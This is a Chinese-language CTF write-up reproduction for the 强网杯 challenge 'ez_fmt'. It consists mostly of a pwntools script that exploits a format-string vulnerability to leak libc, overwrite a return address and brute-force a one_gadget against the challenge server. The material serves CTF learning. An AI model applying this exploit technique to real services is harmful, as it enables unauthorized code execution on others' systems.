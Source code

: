 # 2023 12月比赛wp复现


 

## 强网杯

### ez_fmt

#### 解法一

程序开头给了stack 地址，利用格式化字符串漏洞修改返回地址，爆破one_gadget ，概率为1/4096。

```python
from pwn import*
context.arch='amd64'
#context.log_level='debug'

s = lambda data : p.send(data)
sl = lambda data : p.sendline(data)
sa = lambda text, data : p.sendafter(text, data)
sla = lambda text, data : p.sendlineafter(text, data)
r = lambda : p.recv()
rn = lambda x  : p.recvn(x)
ru = lambda text : p.recvuntil(text)
dbg = lambda text=None  : gdb.attach(p, text)
uu32 = lambda : u32(p.recvuntil(b"\xff")[-4:].ljust(4, b'\x00'))
uu64 = lambda : u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
pr = lambda s : print('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))

def mydbg():
    gdb.attach(p,"b *0x401239")
    pause()
i=1
while True:
    p=remote('47.104.24.40',1337)
    #p=process("./ez_fmt")
    ru("There is a gift for you ")
    stack_addr=int(ru("\n"),16)
    lg("stack_addr")
    lg("i")
    i=i+1
    w_addr=0x0404010 
    ret_addr=stack_addr+0x68
    main_addr=0x401196
    lg("ret_addr")
    payload="%19$p"
    payload+="%"+str(0x40-14)+"c"+"%10$hhn"+"%"+str(0xfb01-0x40)+"c"+"%11$hn"
    payload=payload.ljust(0x20,'a')
    payload=payload.encode()+p64(ret_addr+2)+p64(ret_addr)
    #mydbg()
    s(payload)
    # pause()
    libc_base=int(rn(14),16)-0x24083
    
    lg("libc_base")
    one_gaget=libc_base+0xe3b01
    lg("one_gaget")
    myogg=(libc_base&0xffffffffff000000)+0x40fb01
    lg("myogg")
    if myogg==one_gaget:
        pause()
        print("success")
```